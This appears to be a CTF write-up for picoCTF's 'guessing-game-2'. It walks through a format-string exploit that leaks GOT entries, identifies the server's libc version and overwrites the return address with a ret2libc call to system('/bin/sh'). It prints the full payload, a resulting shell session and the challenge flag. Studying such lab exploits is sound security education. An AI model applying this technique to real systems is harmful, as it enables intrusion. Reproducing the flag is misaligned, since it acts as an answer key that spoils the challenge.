

# guessing-game-2

Format-string Exploit, GOT Leak, libc Version Identification

## checksec

```bash
[*] '/mnt/d/CTFs/picoCTF/Pwn/guessing-game-2/vuln'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

Full RELRO is applied, which forces immediate symbol resolution at startup. Thus, if we can leak the GOT, regardless of where we are at in the program, we will be able to obtain all the resolved libc function addresses. 

Canary protection is enabled, so we are unlikely to be able to exploit buffer overflow vulnerabilities within the binary. 

## Overview of Binary

The `win` function (see below) is slightly different from that in [guessing-game-1](../guessing-game-1/)

```c
void win() {
	char winner[BUFSIZE];
	printf("New winner!\nName? ");
	gets(winner);
	printf("Congrats: ");
	printf(winner);
	printf("\n\n");
}
```

The differences (within the `win` function) are that

1. although the presence of `gets` is usually synonymous with a buffer overflow, there is a canary in `win`, and
2. instead, there is now a format string vulnerability. 

### Getting to `win`

Another importance difference is that the condition to enter `win` is no longer an unseeded PRNG, although it may look like one. Instead, the call to `get_random` in `do_stuff` (see below)

```c
long ans = (get_random() % 4096) + 1;
```

just returns the address of libc `rand`. 

```c
long get_random() {
	return rand;
}
```

My WSL 32-bit libc clearly wasn't of the same version as that being run on the picoCTF server, as the address of `rand` in mine that produces an answer that works locally didn't provide the correct value for the binary on the server. There was no choice but to brute force it out (see [guess_ans.py](./guess_ans.py)). 

Note that the answer is constant across runs of the binary (given the same libc) despite ASLR when loading the libc shared object into virtual memory because libc, when loaded, is aligned to the page boundary of 0x1000. This is 4096 in decimal. In elegant fashion, the answer is obtained by adding 1 to the remainder of the address of `rand` modulo 4096, and thus refers to the offset (incremented by 1) of `rand` within the libc.so of that version. This offset remains constant across loads into virtual memory. 

Lastly, due to the fact that 32-bit address that libc is loaded into is close to the end (i.e. the maximum unsigned value) of the 32-bit virtual address space, the address of `rand` is interpreted as a negative signed integer, which results in the answer being negative as well. This is why [guess_ans.py](./guess_ans.py) searches from -4094 to 4096 (excluding 0). 

After running the script for a bit, we find that the answer is -3727

```bash
(venv) asdiml@DESKTOP-??????:/mnt/d/CTFs/picoCTF/Pwn/guessing-game-2$ python3 guess_ans.py
Progress: -3727/4096
Answer = -3727
```

## Concept of Exploit

TO REVIEW (SEE TODO BELOW)

Although we could likely obtain the flag by using the format-string vulnerability to write in ROP gadgets to ret2syscall as in [guessing-game-1](../guessing-game-1/solve.md), we shall opt to instead leak the fully-resolved GOT to identify the libc version being used on the server. 

Once this is done, we should be able to (making a different connection to the remote) leak the libc base address for that process and thus obtain the address of `system`. 

Then, on the same connection, we leak the `ebp` of `main`, which is saved on the stack before the stack frame of `win` is "created" by subtracting from `esp`. This `ebp` is a fixed offset from the address on the stack at which the return address from `win` is stored, allowing us to calculate the address which value we will need to overwrite. 

Lastly, we use the arbitrary-write capability from the format-string vulnerability to write over the return address to ret2libc. 

## Leaking the Fully-resolved GOT

gdb shows us that the GOT has 10 entries, which are fully-resolved by the time `win` is reached

```
[0x8049fc8] printf@GLIBC_2.0  →  0xf7ddb520
[0x8049fcc] gets@GLIBC_2.0  →  <SOME_ADDR>
[0x8049fd0] fgets@GLIBC_2.0  →  <SOME_ADDR>
[0x8049fd4] __stack_chk_fail@GLIBC_2.4  →  <SOME_ADDR>
[0x8049fd8] getegid@GLIBC_2.0  →  <SOME_ADDR>
[0x8049fdc] puts@GLIBC_2.0  →  <SOME_ADDR>
[0x8049fe0] __libc_start_main@GLIBC_2.0  →  <SOME_ADDR>
[0x8049fe4] atol@GLIBC_2.0  →  <SOME_ADDR>
[0x8049fe8] setvbuf@GLIBC_2.0  →  <SOME_ADDR>
[0x8049fec] setresgid@GLIBC_2.0  →  <SOME_ADDR>
```

Here, ASLR is not disabled because we're using `gdb.debug` from pwntools. Whether this is because gdb is attached after the binary is loaded into virtual memory, or because pwntools calls gdb with ASLR enabled, however, I'm not sure. 

Regardless, the [leak_libcfunc_addrs.py](./leak_libcfunc_addrs.py) script leaks however much of the GOT you want (just add/remove to/from the `got_funcs` list in order), as shown

```python
[+] Opening connection to jupiter.challenges.picoctf.org on port 57529: Done
[*] printf addr: 0xf7e0dd60
[*] gets addr: 0xf7e23ce0
[*] fgets addr: 0xf7e22a10
[*] __stack_chk_fail addr: 0xf7ec4eb0
[*] getegid addr: 0xf7e7bc70
[*] Closed connection to jupiter.challenges.picoctf.org port 57529
```

### Identifying the libc version used on the server

Hint 1 of the challenge states

```
No longer a static binary, but maybe this will help https://libc.rip
```

which is a pretty obvious clue. Using the link provided, and with just the addresses of `printf` and `gets`, we are able to narrow down the version of libc to either of 2 choices, `libc6-i386_2.27-3ubuntu1.5_amd64` or `libc6-i386_2.27-3ubuntu1.6_amd64`



Although not visible in this picture, all the listed functions (i.e. `__libc_start_main_ret`, `dup2`, `system`, etc) have the same offset in both libc shared object files. We have thus obtained the libc offset of `system`, `0x3cf10`.

Also, it is likely that either version can used to patch the binary for local exploit testing. This is probably easiest done by downloading and moving the libc into the directory with the binary and running `pwninit` in it. 

## Leaking the libc base addr and saved `ebp`

### Leaking the libc base address

Leaking the base address where libc is loaded is simple - similar to the above section, we leak the libc address of `printf` (i.e. the first entry in the GOT) and subtract off the value of its address within in the `libc6-i386_2.27-3ubuntu1.6_amd64` shared object. 

### Leaking the `ebp` of the stack frame of `main`

Leaking the saved `ebp` from within `win`, which is also the `ebp` of the stack frame of `main`, is also simple - we are simply leaking a 32-bit value from the stack which can be done with a `%XX$p` format specifier (where `XX` is some positive integer). 

The value of `XX` can be determined through a calculation involving the offset (of the format-string vulnerability) and the address of the buffer passed to `gets` in relation to `ebp` ([format-string exploit tutorial](https://book.hacktricks.xyz/binary-exploitation/format-strings)). 

More importantly, because the `win` is called in the following manner from `main`

```c
while (1) {
    res = do_stuff();
    if (res) {
        win();
    }
}
```

i.e. the stack frames are managed in the same way before every potential call to `win`, we can be certain that 

1. the `ebp` of the stack frame of `win` will always be the same, and
2. the return address from `win` will always be stored at the same virtual address on the stack, for that process. 

`ebp` of the stack frame of `main` remains constant through all calls to `win` as well, so the offset between the `ebp` of `main` and where the return address of `win` is stored is fixed. This offset can be found with some gdb breakpoint-setting and register-grabbing, and thus we can calculate where the address of the retaddr from `win` for that execution of the binary on the server. 

## ret2libc

Automation with pwntools i.e. `rop.system(next(libc.search(b"/bin/sh\x00")))` gives us the following ROP chain. The specific addresses of `system` and the `/bin/sh` string will differ every run

```python
[*] ROP Chain: 
    0x0000:       0xf7daff10 system(0xf7eee9db)
    0x0004:          b'baaa' <return address>
    0x0008:       0xf7eee9db arg0   # Points to '/bin/sh\x00'
```

To recap (since this is relatively trivial), the x86 calling convention (`x86` means `32-bit`, `x86-64` means `64-bit`) involves pushing the last argument onto the stack first, pushing the arguments in reverse order till the first argument is pushed onto the stack. Lastly, when the function is called, the return address is pushed onto the stack (as in x86-64). This "ROP chain" (more technically, this is just a libc function call) thus emulates calling `system("/bin/sh")` with an arbitrary return address. 

### No Stack Alignment required (in this case) before a Function Call

I was under the impression that in modern i386, `esp` needs to be aligned to the 16-byte boundary before a function call. However, `system("/bin/sh")` ran properly both locally and on the server even without alignment. 

Perhaps the alignment is more a convention than a requirement, or only a requirement if certain SIMD instructions are involved. 

### Writing in the ROP chain

Finally, the format-string vulnerability allows us to avoid the canary and write our desired bytes (forming the ret2libc attack) directly into the address space starting from the return address of `win`. 

This is highly automatable with pwntools' `FmtStr` class (see [solve.py](./solve.py)). 

## Flag

```bash
[+] Opening connection to jupiter.challenges.picoctf.org on port 57529: Done
[*] hex(libc.address)='0xf7cf9000'
[*] hex(ebp_main)='0xffc1c5b8'
[*] Loaded 163 cached gadgets for 'libc6-i386_2.27-3ubuntu1.6_amd64.so'
[*] ROP Chain:
    0x0000:       0xf7d35f10 system(0xf7e749db)
    0x0004:          b'baaa' <return address>
    0x0008:       0xf7e749db arg0
[*] Format String payload: b'%16c%36$hhn%57c%37$hhn%22c%38$hhncc%39$hhn%40$hhn%41$hhnc%42$hhn%113c%43$hhn%8c%44$hhn%12c%45$hhn%16c%46$hhn%47$hhna\x9c\xc5\xc1\xff\xa5\xc5\xc1\xff\x9d\xc5\xc1\xff\xa1\xc5\xc1\xff\xa2\xc5\xc1\xff\xa3\xc5\xc1\xff\xa0\xc5\xc1\xff\x9e\xc5\xc1\xff\xa4\xc5\xc1\xff\xa6\xc5\xc1\xff\x9f\xc5\xc1\xff\xa7\xc5\xc1\xff'
[*] Switching to interactive mode
Congrats:                \x00                                                        \xc0                     }ccc                                               
                                                                        q           q               %a\x9c\xc5\xc1\xff\xa5\xc5\xc1\xff\x9d\xc5\xc1\xff\xa1\xc5\xxc1\xff\xa2\xc5\xc1\xff\xa3\xc5\xc1\xff\xa0\xc5\xc1\xff\x9e\xc5\xc1\xff\xa4\xc5\xc1\xff\xa6\xc5\xc1\xff\x9f\xc5\xc1\xff\xa7\xc5\xc1\xff

$ ls
flag.txt
vuln
vuln.c
xinet_startup.sh
$ cat flag.txt
picoCTF{p0p_r0p_4nd_dr0p_1t_22bfee4300f20d7e}
```